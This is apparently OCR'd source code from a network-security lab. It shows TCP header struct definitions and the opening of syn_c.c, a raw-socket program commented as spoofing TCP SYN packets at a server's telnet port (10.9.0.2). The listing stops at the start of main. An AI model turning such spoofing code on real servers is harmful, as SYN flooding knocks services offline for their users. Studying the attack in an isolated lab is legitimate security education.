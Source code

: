 ```c
    u_short tcp_dport;               /* destination port */
    u_int   tcp_seq;                 /* sequence number */
    u_int   tcp_ack;                 /* acknowledgement number */
    u_char  tcp_offx2;               /* data offset, rsvd */
#define TH_OFF(th)      (((th)->tcp_offx2 & 0xf0) >> 4)
    u_char  tcp_flags;
#define TH_FIN  0x01
#define TH_SYN  0x02
#define TH_RST  0x04
#define TH_PUSH 0x08
#define TH_ACK  0x10
#define TH_URG  0x20
#define TH_ECE  0x40
#define TH_CWR  0x80
#define TH_FLAGS        (TH_FIN|TH_SYN|TH_RST|TH_ACK|TH_URG|TH_ECE|TH_CWR)
    u_short tcp_win;                 /* window */
    u_short tcp_sum;                 /* checksum */
    u_short tcp_urp;                 /* urgent pointer */
};

/* Psuedo TCP header */
struct pseudo_tcp
{
        unsigned saddr, daddr;
        unsigned char mbz;
        unsigned char ptcl;
        unsigned short tcpl;
        struct tcpheader tcp;
        char payload[1500];
};
```



syn_c.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "syn_c.h"

#define DEST_IP    "10.9.0.2"   // Server IP
#define DEST_PORT  23             // Server telnet port
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);
void send_raw_ip_packet(struct ipheader* ip);


/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main() {
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *) buffer;
    struct tcpheader *tcp = (struct tcpheader *) (buffer +
                               sizeof(struct ipheader));

```